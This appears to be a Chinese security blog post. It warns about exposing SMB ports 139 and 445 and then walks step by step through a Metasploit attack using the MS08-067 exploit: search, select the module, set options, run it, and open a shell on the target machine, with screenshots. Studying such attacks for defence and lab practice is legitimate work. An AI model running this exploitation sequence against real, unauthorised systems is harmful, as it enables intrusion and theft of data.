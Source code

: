 以一些遭受过此类攻击的企业为例，曾经有一家科技创业公司，在发展初期为了方便内部员工之间的文件共享，开启了 445 端口，但却忽视了网络安全防护措施的加强。黑客利用系统未及时更新的漏洞，通过 445 端口成功入侵公司内部服务器，窃取了正在研发中的核心技术代码以及大量客户信息。这些信息被黑客用于非法商业竞争，导致该创业公司遭受巨大的经济损失，声誉也受到严重损害，几乎濒临破产边缘。  
  
对于公开服务器而言，开启  
 139 和 445 端口无疑是在网络安全的雷区中裸奔。若服务器存在 Guest 帐号且未设置密码，那简直就是为黑客敞开了一扇毫无阻碍的大门，他们能够通过因特网如入无人之境般盗看文件。而倘若还给该帐号赋予了写入权限，那么服务器中的文件就如同待宰羔羊，可被轻易地篡改、删除或植入恶意软件，进而将整个服务器系统变成黑客操控的傀儡，用于发起大规模的网络攻击，如分布式拒绝服务攻击（DDoS），影响其他无辜的网络用户和系统。  
  
  
MSF命令：  
```
 search ms08-067
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aObyfqwuuSibY86mommbGcdUIVL0B3e9eZ8a5La2mnCXFwaePDSuKibtbg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
use 0 （上图 0 编号）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOk6TbEUq1wicTLk1HInEPz7diaOSnSPpwGgqnGYWEPjF86pUkvXDOiacTg/640?wx_fmt=png&from=appmsg "")  
```
show options
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOnWTwricPLXzaoxhnnQG5P9nmpglibbld5sW3G6fibqDyV0vcCO9zoGlHw/640?wx_fmt=png&from=appmsg "")  
  
上图空白处要设置：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOudK2fBHGS0uu38IibHaDiax8vzZe7mG6YfyegLdpzialG5DVoScOBY6TQ/640?wx_fmt=png&from=appmsg "")  
  
  
run或者exploit(都是运行命令)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOAicBgUrFOSSWMPLe3s5gxdSbgfVAibwnGWBXkgvicblamORDlNZclg41w/640?wx_fmt=png&from=appmsg "")  
```
ps #查看目标电脑的进程
getuid #查看用户权限
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOKOR1n96W9rSclBv3TzGyMceGtCRnGHAMW5Igj3wwCqBZiaUXPWbqbibg/640?wx_fmt=png&from=appmsg "")  
```
shell #进入目标电脑
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOJxicBLq3O0icjpNNicPOYrNiaecmNhibBV9wnV8vjRIJpavF8vWpuFX4FCQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOXfdr3TKX8iaYegn0YeiaT48UTKeQoO1KjY42K4St1YD8xbQxhoNefVWw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOuajn7SQz0GibX2J4MAaE1YHiaqqpchqy6pjAjbLP5hY43A9WOhdhmM6w/640?wx_fmt=png&from=appmsg "")  
  
登录：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7GdQPxd9w0iaChpUibNkAo4aOAibk5BYKcrr14LopUWmZq2yUX8cbTp7skdzDwt8Ew7mTjz8uMsNoyHw/640?wx_fmt=png&from=appmsg "")  
  